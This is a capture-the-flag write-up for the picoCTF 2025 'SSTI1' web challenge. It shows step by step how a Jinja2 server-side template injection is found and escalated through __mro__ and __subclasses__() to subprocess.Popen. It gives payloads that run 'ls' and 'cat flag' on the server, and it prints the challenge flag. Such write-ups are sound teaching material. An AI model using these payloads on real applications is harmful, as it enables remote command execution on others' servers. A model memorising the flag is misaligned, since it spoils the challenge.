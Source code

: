 # :briefcase: SSTI1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025`

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](https://play.picoctf.org/practice/challenge/492)!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try enter some announce `>` We have this

    ![image2](images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    ![image3](images/image3.png)

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    ![image4](images/image4.png)
    ![image5](images/image5.png)

    This proves that we can use `Jinja2` to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    ![image6](images/image6.png)

    `{{''.__class__.__mro__}}`

    ![image7](images/image7.png)

    `{{''.__class__.__mro__[1]}}`
    
    ![image8](images/image8.png)

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    ![image9](images/image9.png)

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    ![image10](images/image10.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    ![image11](images/image11.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    ![image12](images/image12.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    ![image13](images/image13.png)

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

- `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
- `__mro__` is a tuple that shows the method resolution order of a class.
- `subprocess` in Python allows executing system commands.

---

# :books: Resources

- [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
- [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

# :hammer_and_wrench: Tools used

- `tr` - translate or delete characters
- `awk` - pattern scanning and processing language

